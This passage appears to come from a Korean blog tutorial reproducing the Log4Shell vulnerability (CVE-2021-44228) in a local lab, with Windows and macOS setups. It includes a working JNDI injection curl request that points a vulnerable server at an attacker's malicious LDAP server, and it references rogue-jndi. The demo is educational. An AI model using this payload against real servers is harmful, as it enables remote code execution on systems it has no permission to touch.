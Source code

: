 아래 Github의 악성 LDAP 서버 구현 코드를 일부 변경하였습니다. 
- 참고 코드 Github 레포지토리 - <https://github.com/veracode-research/rogue-jndi>

### 3.4. 테스트 방법

각 운영체제 별로 보안이 취약한 버전의 Log4j를 사용하는 서비스를 실행합니다. 
해커 역할을 담당하는 PC에는 악의적인 명령어를 실행할 수 있는 LDAP 서비스를 실행합니다. 
- 테스트 코드 - <https://github.com/Junhyunny/blog-in-action/tree/master/2021-12-15-log4j-vulnerability-CVE-2021-44228>
- `log4shell-vulnerable-app` 프로젝트 - 보안 취약 서버
- `log4shell-attacker-ldap-server` 프로젝트 - 악의적인 LDAP 서버

#### 3.4.1. Windows
- `http://192.168.1.3:8080/` - Windows 운영체제에서 동작하는 취약 서비스
- `ldap://192.168.1.6:1389` - 해커의 악성 LDAP 서비스
- `o=windows` - LDAP 질의(query)를 이용한 Windows 명령어
- `MacOS`에서 다른 Windows PC의 인터넷 익스플로러(IE, Internet Explorer)를 실행시킵니다.

##### 해킹 시도 요청

```
% curl http://192.168.1.3:8080/ -H 'X-Api-Version: ${jndi:ldap://192.168.1.6:1389/o=windows}'
```

##### 테스트 결과

<p align="center">
    <img src="/images/log4j-vulnerability-CVE-2021-44228-4.gif" width="80%" class="image__border">
</p>

#### 3.4.2. MacOS
- `http://127.0.0.1:8080/` - MacOS 운영체제에서 동작하는 취약 서비스, 로컬 호스트 테스트로 진행하였습니다.
- `ldap://192.168.1.6:1389` - 해커의 악성 LDAP 서비스
- `o=macos` - LDAP 질의(query)를 이용한 MacOS 명령어
- `MacOS`에서 자신의 MacOS PC의 사파리(Safari)를 실행시킵니다.
